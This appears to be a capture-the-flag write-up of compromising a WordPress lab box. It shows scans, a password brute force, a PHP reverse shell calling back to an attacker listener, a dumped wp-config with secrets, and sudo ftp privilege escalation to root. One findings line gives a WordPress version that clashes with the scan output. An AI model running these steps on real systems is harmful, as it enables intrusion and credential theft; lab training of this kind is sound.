




Target: 10.10.176.228

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.176.228

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 01:50 PDT
Nmap scan report for 10.10.176.228
Host is up (0.41s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.176.228/FUZZ

wp-content              [Status: 301, Size: 319, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 320, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 317, Words: 20, Lines: 10]
hidden                  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

checking index


checking /hidden


wpscan
```
$ wpscan --url http://10.10.176.228 -e

         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.176.228/ [10.10.176.228]
[+] Started: Tue May 18 01:52:31 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.176.228/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.176.228/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.176.228/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.176.228/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.176.228/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.176.228/wp-content/themes/twentyfifteen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://10.10.176.228/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://10.10.176.228/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.176.228/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:30 <===================================> (349 / 349) 100.00% Time: 00:00:30
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:03:44 <=================================> (2575 / 2575) 100.00% Time: 00:03:44

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:12 <====================================> (137 / 137) 100.00% Time: 00:00:12

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:06 <==========================================> (71 / 71) 100.00% Time: 00:00:06

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:10 <===============================> (100 / 100) 100.00% Time: 00:00:10

[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <=====================================> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

Users:

hugo

c0ldd

philip


bruteforcing password of found users
```
$ wpscan --url http://10.10.176.228 -U c0ldd --passwords /usr/share/wordlists/rockyou.txt     

<snip>
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                     
Trying c0ldd / franklin Time: 00:03:28 <                                  > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Loot:

c0ldd:9876543210

logging in


### Findings:Looking for attack vectors

The website runs on Wordpress v5.5.1 with credentials c0ldd:9876543210.
Look for WP exploit/s RCE.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload
```
<snip>
$ip = '<ip>';  		// CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

editting php


opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded reverse shell
```
$ curl http://10.10.176.228/wp-content/themes/twentyfifteen/404.php
```

```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Lateral Movement:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

looking for configuration files
```
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php

<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'o[eR&,8+wPcLpZaE<ftDw!{,@U:p]_hc5L44E]Q/wgW,M==DB$dUdl_K1,XL/+4{');
define('SECURE_AUTH_KEY',  'utpu7}u9|FEi+3`RXVI+eam@@vV8c8x-ZdJ-e,mD<6L6FK)2GS }^:6[3*sN1f+2');
define('LOGGED_IN_KEY',    '9y<{{<I-m4$q-`4U5k|zUk/O}HX dPj~Q)<>#7yl+z#rU60L|Nm-&5uPPB(;^Za+');
define('NONCE_KEY',        'ZpGm$3g}3+qQU_i0E<MX_&;B_3-!Z=/:bqy$&[&7u^sjS!O:Yw;D.|$F9S4(&@M?');
define('AUTH_SALT',        'rk&S:6Wls0|nqYoCBEJls`FY(NhbeZ73&|1i&Zach?nbqCm|CgR0mmt&=gOjM[.|');
define('SECURE_AUTH_SALT', 'X:-ta$lAW|mQA+,)/0rW|3iuptU}v0fj[L^H6v|gFu}qHf4euH9|Y]:OnP|pC/~e');
define('LOGGED_IN_SALT',   'B9%hQAayJt:RVe+3yfx/H+:gF/#&.+`Q0c{y~xn?:a|sX5p(QV5si-,yBp|FEEPG');
define('NONCE_SALT',       '3/,|<&-`H)yC6U[oy{`9O7k)q4hj8x/)Qu_5D/JQ$-)r^~8l$CNTHz^i]HN-%w-g');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each a unique
 * prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

define('WP_HOME', '/');
define('WP_SITEURL', '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
```

enumerating users
```
www-data@ColddBox-Easy:/var/www/html$ cat /etc/passwd | grep sh

root:x:0:0:root:/root:/bin/bash
c0ldd:x:1000:1000:c0ldd,,,:/home/c0ldd:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
```

testing for password re-use
```
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd

c0ldd@ColddBox-Easy:~$ id

uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

```
c0ldd@ColddBox-Easy:~$ cat user.txt

<redacted>
```


## Priv Escalations:

enumerating sudo privilages
```
c0ldd@ColddBox-Easy:~$ sudo -l

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

exploiting sudo privilages
```
c0ldd@ColddBox-Easy:~$ sudo ftp

ftp> !/bin/sh

# id

uid=0(root) gid=0(root) grupos=0(root)
```

```
cat root.txt

<redacted>
```
